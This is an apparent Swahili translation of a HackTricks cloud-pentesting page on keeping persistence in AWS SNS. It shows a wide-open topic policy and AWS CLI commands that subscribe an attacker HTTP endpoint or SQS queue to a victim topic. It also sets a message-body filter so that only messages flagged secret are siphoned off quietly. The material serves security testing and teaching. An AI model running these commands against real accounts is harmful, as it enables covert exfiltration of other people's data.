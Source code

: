 # AWS - SNS Uendelevu

{{#include ../../../../banners/hacktricks-training.md}}

## SNS

Kwa maelezo zaidi angalia:

{{#ref}}
../../aws-services/aws-sns-enum.md
{{#endref}}

### Uendelevu

Wakati wa kuunda **SNS topic** unahitaji kutaja kwa sera ya IAM **nani ana haki ya kusoma na kuandika**. Inawezekana kutaja akaunti za nje, ARN of roles, au **hata "\*"**.\

Sera ifuatayo inawapa kila mtu ndani ya AWS upatikanaji wa kusoma na kuandika kwenye SNS topic inayoitwa **`MySNS.fifo`**:
```json
{
"Version": "2008-10-17",
"Id": "__default_policy_ID",
"Statement": [
{
"Sid": "__default_statement_ID",
"Effect": "Allow",
"Principal": {
"AWS": "*"
},
"Action": [
"SNS:Publish",
"SNS:RemovePermission",
"SNS:SetTopicAttributes",
"SNS:DeleteTopic",
"SNS:ListSubscriptionsByTopic",
"SNS:GetTopicAttributes",
"SNS:AddPermission",
"SNS:Subscribe"
],
"Resource": "arn:aws:sns:us-east-1:318142138553:MySNS.fifo",
"Condition": {
"StringEquals": {
"AWS:SourceOwner": "318142138553"
}
}
},
{
"Sid": "__console_pub_0",
"Effect": "Allow",
"Principal": {
"AWS": "*"
},
"Action": "SNS:Publish",
"Resource": "arn:aws:sns:us-east-1:318142138553:MySNS.fifo"
},
{
"Sid": "__console_sub_0",
"Effect": "Allow",
"Principal": {
"AWS": "*"
},
"Action": "SNS:Subscribe",
"Resource": "arn:aws:sns:us-east-1:318142138553:MySNS.fifo"
}
]
}
```
### Unda Subscribers

Ili kuendelea exfiltrating ujumbe wote kutoka kwa topics zote, attacker anaweza **create subscribers for all the topics**.

Kumbuka kwamba ikiwa **topic ni ya aina FIFO**, subscribers wanayotumia protocol **SQS** tu wanaweza kutumika.
```bash
aws sns subscribe --region <region> \
--protocol http \
--notification-endpoint http://<attacker>/ \
--topic-arn <arn>
```
### Uondoaji wa siri, wa kuchagua kupitia FilterPolicy kwenye MessageBody

Mshambulizi aliye na `sns:Subscribe` na `sns:SetSubscriptionAttributes` kwenye topic anaweza kuunda subscription ya SQS ya kujiweka kwa siri ambayo inatuma mbele ujumbe tu ambao body yake ya JSON inalingana na filter nyembamba sana (kwa mfano, `{"secret":"true"}`). Hii inapunguza wingi na uwezekano wa kugunduliwa huku bado ikiruhusu uondoaji wa siri wa rekodi nyeti.

**Potential Impact**: Uondoaji wa siri, wa kelele ndogo wa ujumbe za SNS zilizolengwa tu kutoka kwenye topic ya mhanga.

Hatua (AWS CLI):
- Hakikisha policy ya queue ya mshambuliaji ya SQS inaruhusu `sqs:SendMessage` kutoka kwa `TopicArn` ya mhanga (Condition `aws:SourceArn` ni sawa na `TopicArn`).
- Unda subscription ya SQS kwenye topic:

```bash
aws sns subscribe --region us-east-1 --topic-arn TOPIC_ARN --protocol sqs --notification-endpoint ATTACKER_Q_ARN
```

- Weka filter ifanye kazi kwenye message body na ulingane tu `secret=true`:

```bash
aws sns set-subscription-attributes --region us-east-1 --subscription-arn SUB_ARN --attribute-name FilterPolicyScope --attribute-value MessageBody
aws sns set-subscription-attributes --region us-east-1 --subscription-arn SUB_ARN --attribute-name FilterPolicy --attribute-value '{"secret":["true"]}'
```

- Hiari ya kificho: washa RawMessageDelivery ili tu payload ghafi ifikie mpokeaji:

```bash
aws sns set-subscription-attributes --region us-east-1 --subscription-arn SUB_ARN --attribute-name RawMessageDelivery --attribute-value true
```

- Uthibitisho: chapisha ujumbe mbili na thibitisha kuwa ni wa kwanza tu zile zinazofika kwenye queue ya mshambuliaji. Mfano wa payloads:

```json
{"secret":"true","data":"exfil"}
{"secret":"false","data":"benign"}
```

- Usafishaji: unsubscribe na delete the attacker SQS queue if created for persistence testing.

{{#include ../../../../banners/hacktricks-training.md}}
